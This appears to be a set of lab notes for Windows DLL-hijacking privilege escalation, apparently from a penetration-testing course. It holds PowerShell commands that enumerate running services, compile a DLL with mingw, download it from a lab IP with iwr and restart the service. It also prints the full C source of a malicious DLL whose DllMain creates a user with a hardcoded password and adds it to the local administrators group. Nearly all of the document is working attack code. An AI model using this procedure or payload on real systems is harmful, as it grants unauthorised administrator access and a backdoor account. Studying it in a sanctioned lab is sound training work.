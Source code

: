 ```
1.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

2.
Restart-Service BetaService

3.
$env:path

4.
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

5.
cd Documents
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
net user

6.
Restart-Service BetaService
net user
net localgroup administrators
```


```
Malicious DLL Example

#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

```
